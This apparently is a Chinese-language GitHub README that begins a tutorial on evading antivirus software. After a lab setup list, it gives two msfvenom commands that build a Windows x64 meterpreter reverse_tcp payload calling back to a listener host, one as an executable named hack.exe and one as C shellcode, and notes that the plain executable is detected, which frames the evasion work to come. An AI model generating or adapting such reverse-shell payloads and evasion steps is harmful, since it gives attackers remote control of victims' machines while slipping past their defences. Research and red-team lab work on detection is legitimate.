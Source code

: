 # 与反病毒软件老大哥们的打闹日常
如果觉得对你有启发, 方便点亮个 `star` 呗。
## 前言
临近毕业，前不久去面试与帅气的面试官聊到了免杀，我答内核钩子、应用层勾子和自建API函数... 

## 环境准备
1. Vmware Workstation Pro 15
2. Windows 10
3. Windows Server 2008 R2
4. Visual studio 2017 (C++ 开发环境)
5. Ubuntu 18.04.1 LTS
6. Metasploit

## 打闹开始
### 生成普通的　Windows x64 meterpreter
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.3 LPORT=8844 -f exe -o hack.exe
```
![](images/shell1.jpg)

这是生成 `meterpreter` 木马最简单的方法，可以预见这种直接生成的木马是肯定会被杀软无情的按在地上摩擦的。
![](images/sharuan2.jpg)

### 生成 meterpreter shellcode
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.3 LPORT=8844 -f c
```